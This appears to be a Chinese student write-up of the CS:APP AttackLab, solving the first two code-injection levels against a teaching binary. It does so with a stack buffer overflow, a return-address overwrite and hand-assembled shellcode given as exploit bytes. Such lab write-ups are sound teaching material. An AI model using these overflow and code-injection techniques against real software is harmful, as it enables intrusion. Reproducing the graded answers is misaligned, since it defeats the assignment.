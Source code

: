 # AttackLab
------------------------------
## 实验目的:
由于C语言中gets()不检查输入字符的边界,可能导致栈被破坏.造成漏洞,这个Lab就用来Attack原始代码,使原始代码执行不应该执行的那部分程序.包括两部分:      
   
- Code Injection Attacks    
- Return-Oriented Programming
   
第一个部分包括3个phase, 是利用字符串将重定向程序以执行现有过程。   
第二个部分
## 实验准备:
- GDB调试工具
- GDB调试常用命令

## 实验过程
首先用```objdump -d ctarget > ctarget_disassemble.txt```将```ctarget```和```rtarget```反汇编到文件中.   
方便分析.   
## PartI Code Injection Attacks
### Level1 : 执行Touch1
由题意可得,```test()```函数中调用了```getbuf()```读入字符串,且调用完后,返回.即:
  
	1 void test()
	2 {
	3 int val;
	4 val = getbuf();
	5 printf("No exploit. Getbuf returned 0x%x\n", val);
	6 }
那么我们调用```getbuf()```后,可能栈会遭到破会,从而返回的函数地址发生变化.这样就不是```printf(...)```作为返回了.   
什么函数用到了```test()```?  
发现```launch()```的汇编代码中有:```callq 401968 <test>```,而```main()函数```中的```stable_launch()```中又调用了```launch()```.   
故我们只需关心```stable_launch()```函数即可,我们继续观察```getbuf()```.

	 00000000004017a8 <getbuf>:
	  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
	  4017ac:	48 89 e7             	mov    %rsp,%rdi
	  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
	  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
	  4017b9:	48 83 c4 28          	add    $0x28,%rsp
	  4017bd:	c3                   	retq   
	  4017be:	90                   	nop
	  4017bf:	90                   	nop

首先```sub $0x28 , %rsp```.说明BUFFER_SIZE为40个字节.我们在观察```touch()```函数的地址,为:
```00000000004017c0 <touch1>:````.   

故此时答案已经可以确定了,首先我们给随便40个字节的字符,之后再加上我们要跳转的地址(8字节),即:
```c0 17 40 00 00 00 00 00```这里是小端方式,故答案如下:  
![](https://i.imgur.com/wb0kwKI.png) 

### Level2:插入攻击代码,执行Touch2()
这个phase目的是,插入一小段攻击代码,并顺利执行```Touch2()```.
   
	1 void touch2(unsigned val)
	2 {
	3 vlevel = 2; / * Part of validation protocol* /
	4 if (val == cookie) {
	5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
	6 validate(2);
	7 } else {
	8 printf("Misfire: You called touch2(0x%.8x)\n", val);
	9 fail(2);
	10 }
	11 exit(0);
	12 }

即在执行Touch2()之前,我们需要设置参数```val```,使其等于我们各自的```cookie```.      
故根据```Phase1()```,我们将攻击代码写入到字符串中,并修改返回地址,使返回地址变成这个字符串的开头,这样就可以执行我们需要的代码了.     
编写攻击代码如下:   

	mov $0x59b997fa , %rdi  # 将cookie值放入rdi中,作为参数
	pushq $0x4017ec         # 关键一步,我们将Touch2()的地址入栈.以便执行
	retq                    # 这一步也关键,retq将rip指针指向返回地址,即修改后的$0x4017ec,即执行Touch2()

然后,放完缓冲区之后,紧接着就是修改返回地址.那么返回地址按我们的想法应该改为字符buffer的起始地址.也就是```sub 0x28, %rsp```之后的```rsp```的值.在执行该语句之前,rsp为```0x5561dca0``` .进入GDB调试:  
![](https://i.imgur.com/1bexbZ2.png)
得到```0x5561dc78```.故这就是我们需要的返回地址.   
那么答案就得到了:    
首先将攻击代码翻译为机器码:        
step1: ```gcc -c touch2.s```     
step2: ```objdump -d touch2.o > touch2.d```     
```touch2.d```中保存的即为机器码:  
![](https://i.imgur.com/lrXezYs.png)
接着,我们将返回地址也填入字符buffer中,最终的答案即为:

	48 c7 c7 fa 97
	b9 59 68 ec 17
	40 00 c3 00 00
	00 00 00 00 00
	00 00 00 00 00
	00 00 00 00 00
	00 00 00 00 00
	00 00 00 00 00
	78 dc 61 55 00
	00 00 00

这里面有几个细节要注意一下:
    
- 首先,在```getbuf()```执行到```retq```后,这个时候才开始跳转到buffer起始地址,并准备执行攻击代码.      
此时rsp指针地址也不再是第一次准备执行```getbuf()```时的地址了,而是又向上(向栈底)增大了8个字节.即从```0x5561dca0```变为```0x5561dca8```,这就是由于```getbuf()```执行了```retq```,返回地址被弹出,所以```rsp```向栈底移动.  
- 然后开始执行攻击代码,此处可以看作一次```callq```,攻击代码中```pushq $0x4017ec <Touch2()>```,将```Touch2()```地址入栈,此时```rsp```地址为```0x5561dca0```,也就是这个调用攻击代码栈帧中的"返回地址",值为```Touch2()```起始地址.之后再次调用```retq```,同理此时弹出```pop``` "返回地址",此时```rip```就指向了```Touch2()```.同时,由于popq了返回地址,此时```rsp```又变为```0x5561dca8```.
- 总结来说,返回"攻击代码"实际上时一次```call和ret```,用这个```ret```来```call Touch2()```.